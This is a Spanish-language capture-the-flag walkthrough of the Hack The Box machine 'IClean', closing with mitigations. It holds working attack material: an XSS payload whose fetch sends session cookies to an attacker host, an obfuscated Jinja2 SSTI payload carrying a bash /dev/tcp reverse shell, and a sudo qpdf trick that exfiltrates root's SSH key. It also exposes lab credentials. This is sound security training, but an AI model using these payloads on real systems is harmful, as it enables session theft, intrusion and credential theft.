---

**Máquina:** IClean

**Plataforma:** Hack The Box

**Laboratorio:** [IClean](https://app.hackthebox.com/machines/596)

**Target:** 10.10.11.12


---

# Guía de explotación paso a paso 'IClean'

## Reconocimiento y enumeración

Acción: escaneo inicial con nmap

```Shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.11.12 -oG allPorts
````

Resultado: dos puertos abiertos, uno de ellos un servicio web

```Shell
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Acción: escaneo a puertos abiertos

```bash
nmap -p22,80 -Pn -sCV -oN targeted 10.10.11.12 -oN targeted
```

Resultado: vemos que python esta por detrás, esto nos puede llevar a pensar en que este usando el Framework de Flask y esto nos podría llevar a un [SSTI](../../../../OWASP%20TOP%2010/SSTI/Server-Side%20Template%20Injection%20-%20SSTI.md).

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
|_http-title: Capiclean
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Acción: fuzzing de rutas ocultas con [gobuster](../../../../Herramientas/Enumeración%20Web/Gobuster/Gobuster.md)

```bash
gobuster dir -u http://capiclean.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40
```

Resultado: varios endpoint descubiertos, como interesante el `dashboard` que dejaremos para más adelante por tener código `302` (necesitamos acceso autorizado), y `quote`. Este último lo capturaremos con [Burp Suite](../../../../Herramientas/Burp%20Suite/BurpSuite.md) para su análisis.

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5267]
/login                (Status: 200) [Size: 2106]
/services             (Status: 200) [Size: 8592]
/team                 (Status: 200) [Size: 8109]
/quote                (Status: 200) [Size: 2237]
/logout               (Status: 302) [Size: 189] [--> /]
/dashboard            (Status: 302) [Size: 189] [--> /]
```

Acción visitamos el endpoint `quote`. Parece ser algún tipo de servicio para concertar citas.



Resultado: al enviar una solicitud se nos contesta con que recibiremos una respuesta, esto puede llevarnos a pensar que hay alguien que revisará/recibirá lo que enviemos desde aquí.



Acción: hacemos una traza tratando de confirmar si hay comunicación entre esta entrada y nuestro servidor controlado con `python3 -m http.server 80`.

```js
/<prueba>"/>
```



Resultado: confirmamos comunicación, con esta inyección html hemos logrado que el servidor solicite un recurso que carga desde un servidor controlado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:32:43] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:32:43] "GET /prueba HTTP/1.1" 404 -
```

Acción: ahora trazamos la acción que corrobore que existe un usuario que recibe dicho mensaje y por lo tanto al estar logueado puede que tras una configuración insegura de `HttpOnly false` nos muestre sus cookies de sesión, permitiendo un secuestro de sesión.



```js
/<prueba>" onerror=fetch("http://<IP_Atacante>/<test>") />
```

**Nota:** para enviar este payload es preferible urlencodear, desde BurpSuite podemos seleccionando la carga y pulsar `ctrl+u`

Resultado: confirmamos que algún usuario esta tratando de acceder a nuestro servidor, por lo que podemos tratar de extraer sus cookies.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:41:23] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:41:23] "GET /prueba HTTP/1.1" 404 -
10.10.11.12 - - [10/Oct/2025 20:41:25] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:41:25] "GET /test HTTP/1.1" 404 -
```

## Explotación

Acción: aplicamos los mismos comandos anteriores pero esta vez con la intención de obtener las cookies del usuario que puede estar monitorizando la entrada de este input.

```bash
/<prueba>" onerror=fetch("http://<IP_Atacacante/?cookie="+document.cookie) />
```

**Nota:** cuidado con el `+` de `document.cookie` ya que en urlencode un `+` significa un espacio, entonces para que no entre en conflicto urlencodeamos el `+`. Quedando así ``

Resultado: logramos la extracción de cookies, ahora desde un endpoint que requiera autorización como el que vimos de `dashboard` podemos tratar de setear las cookies encontradas y acceder a contenido privilegiado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.12 - - [10/Oct/2025 20:48:43] code 404, message File not found
10.10.11.12 - - [10/Oct/2025 20:48:43] "GET /prueba HTTP/1.1" 404 -
10.10.11.12 - - [10/Oct/2025 20:48:44] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.aOlN4Q.lODbtw8aRZpbq6sV6YVHnrjrTNk HTTP/1.1" 200 -
```

Acción: seteamos las cookies desde el DevTools


Acción: con las cookies añadidas, vamos al endpoint `dashboard` el cual ahora si nos permite acceder no como antes que nos redirigía al inicio y en gobuster veíamos un código de estado `302` de no autorizado. 



Acción: en el apartado 'Generate Invoice' podemos generar una factura



Resultado: la factura generada nos proporciona un identificador


Acción: en 'Generate QR' podemos introducir el identificador anterior y obtener una URL con el QR de la factura anterior. Lo interesante aquí es que con BurpSuite vemos que el valor introducido en 'Insert QR Link to generate Scannable Invoice' se muestra en la respuesta que vemos con BurpSuite que no es más que el propio código fuente.





Acción: como la web es `Flask` lo vemos con `Wappalyzer` plugin de Firefox. Podemos tratar de probar un [SSTI](../../../../OWASP%20TOP%2010/SSTI/Server-Side%20Template%20Injection%20-%20SSTI.md).



Acción: ejecutamos el payload clásico para el Framework que trae por defecto Flask que es *Jinja2* . Por lo que usamos `{{7*7}}` con la esperanza de ver `49` en el código fuente.



Resultado: confirmamos tanto en BurpSuite como por el código fuente de la página que tenemos un **RCE** (Ejecución Remota de Comandos).



Acción: introducimos el siguiente payload encontrado en [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Y confirmamos RCE

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


Acción: con todo esto estamos en condiciones de enviarnos una Reverse Shell a nuestra máquina atacante, tan solo cambiamos el comando introducido anteriormente que era `id` por el siguiente (reverse shell clásica con urlencode en las `&`):

```bash
bash -c "bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261"
```

```bash
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')("bash -c 'bash -i >%26/dev/tcp/<IP_Atacante>/443 0>%261'")|attr('read')()}}
```

Resultado: ganamos acceso al servidor como usuario de bajos privilegios.

```bash
nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.12 56528
bash: cannot set terminal process group (1217): Inappropriate ioctl for device
bash: no job control in this shell
www-data@iclean:/opt/app$
```


---

## Escalada de privilegios

Acción: tratamiento de la tty. Vemos que esta python instalado con `which python3`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo; fg
export TERM=xterm
```

Acción:

```bash
ls
cat app.py
```

Resultado: dentro del script que encontramos vemos este fragmento que nos revela unas credenciales `iclean:pxCsmnGLckUb` y una base de datos  `capiclean`

```bash
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

Acción: nos conectamos a la base de datos para tratar de encontrar credenciales

```bash
mysql -uiclean -ppxCsmnGLckUb -Dcapiclean
```

Resultado:

```bash
mysql>
```

Acción:

```bash
SHOW databases;
SHOW tables;
describe users;
select username,password from users;
```

Resultado:

```bash
+----------+------------------------------------------------------------------+
| username | password                                                         |
+----------+------------------------------------------------------------------+
| admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 |
| consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa |
+----------+------------------------------------------------------------------+
```

Acción: crackeamos la contraseña desde [crackstation](https://crackstation.net/). Como resultado obtenemos la contraseña del usuario 'consuela' `simple and clean`

```bash
su consuela
cd
cat uset.txt
```

Resultado: al ganar acceso a este usuario podemos visualizar la primera flag de esta máquina de HTB

```bash
<Flags_HTB>
```


---

### Escalada a root

Acción:

```bash
sudo -l
```

Resultado: podemos ejecutar como usuario root una herramienta llamada `qpdf` que con `qpdf --help` podemos ver que sirve para generar archivos pdf de un archivo dado.

```bash
User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

Acción:

```bash
cd /tmp
qpdf --help
```

Resultado:

```bash
Run "qpdf --help=topic" for help on a topic.
Run "qpdf --help=--option" for help on an option.
Run "qpdf --help=all" to see all available help.

Topics:
  add-attachment: attach (embed) files
  advanced-control: tweak qpdf's behavior
  attachments: work with embedded files
  completion: shell completion
  copy-attachments: copy attachments from another file
  encryption: create encrypted files
  exit-status: meanings of qpdf's exit codes
  general: general options
  help: information about qpdf
  inspection: inspect PDF files
  json: JSON output for PDF information
  modification: change parts of the PDF
  overlay-underlay: overlay/underlay pages from other files
  page-ranges: page range syntax
  page-selection: select pages from one or more files
  pdf-dates: PDF date format
  testing: options for testing or debugging
  transformation: make structural PDF changes
  usage: basic invocation
```

Acción: como podemos ejecutar como root cualquier acción con `sudo qpdf` nos creamos un archivo pdf con la clave privada de root para poder conectarnos vía ssh como usuario de altos privilegios en la máquina objetivo.

```bash
sudo qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/privesc
python3 -m http.server 8081
```

Acción: desde  nuestra máquina atacante nos descargamos el archivo `id_rsa` con la clave privada del usuario root.

Resultado:

```bash
wget 10.10.11.12:8081/privesc
mv privesc privesc.pdf
open privesc.pdf 
```

Acción: al abrir el archivo pdf en la sección de *adjuntos* tenemos la copia del archivo `id_rsa`





Acción: pegamos el contenido de la clave en la máquina objetivo, le damos permisos de solo lectura y escritura al propietario. 

```bash
nano id_rsa
chmod 600 id_rsa
```

Acción:

```bash
ssh -i id_rsa root@localhost
cd /root
cat root.txt
```

Resultado:

```bash
<Flags_HTB>
```


---

# Conclusión — Guía de explotación: IClean

Resumimos nuestra explotación de la máquina **IClean** (Hack The Box) en los siguientes puntos:

## Resumen rápido

- Identificamos los servicios activos: **SSH (22)** y **HTTP (80)**. El servidor web corre con Apache y muestra que está servido por **Werkzeug/Python** — pista de uso de **Flask**.
    
- Encontramos endpoints relevantes (`/quote`, `/dashboard`) y comprobamos mediante inyecciones que el servicio realiza peticiones a recursos que controlábamos, confirmando interacción con un actor/monitor en el lado servidor.
    
- Explotamos una vulnerabilidad de **XSS/HTML injection** para forzar peticiones desde el servidor hacia nuestro sistema y extraer cookies de sesión.
    
- Con las cookies y acceso al `dashboard` descubrimos que la aplicación era vulnerable a **SSTI** (Jinja2). La SSTI la escalamos a **RCE** ejecutando comandos del sistema.
    
- Conseguimos una shell como `www-data`, leímos `app.py` y hallamos credenciales de base de datos en claro.
    
- Usando esas credenciales accedimos a la base de datos, crackeamos una contraseña y nos movimos a la cuenta de `consuela` (usuario con más permisos que `www-data`).
    
- `sudo -l` mostró que `consuela` puede ejecutar `qpdf` como root. Aprovechamos `qpdf` para extraer `/root/.ssh/id_rsa` como adjunto en un PDF y así obtener la clave privada de root.
    
- Finalmente, accedimos por SSH como root y recuperamos la flag de la máquina.
    

## Impacto

- Compromiso completo de la máquina (RCE y escalada a root).
    
- Exposición de credenciales en código fuente y posibilidad de robo de sesiones (cookies sin HttpOnly).
    
- Uso abusivo de utilidades permitidas por `sudo` que permiten exfiltrar archivos sensibles.
    

## Pasos fundamentales (apunte corto)

1. Enumeración: `nmap -p- --open -sS -n -Pn --min-rate 5000 10.10.11.12` → puertos 22 y 80.
    
2. Descubrimiento de rutas: `gobuster dir` → `/quote`, `/dashboard`, etc.
    
3. Prueba de interacción con servidor: inyección de `/<prueba>"/>` y comprobación en nuestro servidor HTTP.
    
4. Exfiltración de cookies con payloads que usan `fetch` y urlencode para evitar problemas con `+`.
    
5. Uso de cookies en DevTools para acceder a `/dashboard`.
    
6. Detección SSTI con `{{7*7}}` y ejecución de payload Jinja2 para RCE.
    
7. Reverse shell y estabilización de TTY.
    
8. Lectura de `app.py` → credenciales de DB → conexión MySQL → crack de hash → `su consuela`.
    
9. `sudo -l` → `qpdf` como root → `qpdf --empty --add-attachment /root/.ssh/id_rsa -- /tmp/privesc` → descarga y uso de `id_rsa`.
    

## Recomendaciones de mitigación

- **Sanitizar y escapar** todas las entradas de usuario; evitar renderizar contenido no confiable en plantillas. Aplicar whitelist cuando sea posible.
    
- **Desactivar SSTI**: evitar pasar directamente variables no controladas a las plantillas; usar renderizado seguro o motores que no permitan ejecución.
    
- **Marcar cookies sensibles** como `HttpOnly`, `Secure` y aplicar `SameSite` apropiado.
    
- **Eliminar credenciales del código**: usar gestores de secretos o variables de entorno protegidas; auditar repositorios y despliegues.
    
- **Principio de mínimos privilegios**: restringir entradas en `sudoers` (no permitir comandos capaces de leer o adjuntar archivos arbitrarios como root). Restringir `qpdf` a opciones necesarias o evitar permitirlo con `ALL`.
    
- **Registro y detección**: habilitar logging y alertas ante peticiones inusuales o comportamientos de plantillas.
    
- **Actualizaciones y hardening**: mantener servidor y dependencias actualizados; aplicar configuración segura de Apache y Python.
    

## Lecciones aprendidas 

- La presencia de herramientas y frameworks (p. ej. `Werkzeug/Python`) es una pista clave: pensar plantillas y SSTI.
    
- Un simple endpoint que refleja entradas del usuario puede ser punto de pivote (XSS → robo de sesión → acceso a áreas restringidas).
    
- Permisos mal configurados para utilidades que trabajan con archivos (como `qpdf`) pueden convertir una cuenta intermedia en root sin explotación binaria compleja.
    
- Siempre buscar artefactos en la aplicación (archivos `.py`, variables de configuración) una vez obtenemos RCE o lectura de ficheros.
    

## Conclusión final

Con una combinación de enumeración, exfiltración de cookies mediante inyección HTML, explotación de SSTI (Jinja2) para conseguir RCE, y aprovechamiento de malas prácticas (credenciales en código y sudoer permisivo para `qpdf`), conseguimos comprometer totalmente la máquina IClean. Las mitigaciones son claras: saneamiento de entradas, gestión segura de credenciales, configuración estricta de cookies y revisión del `sudoers` para minimizar la superficie de escalada.

---
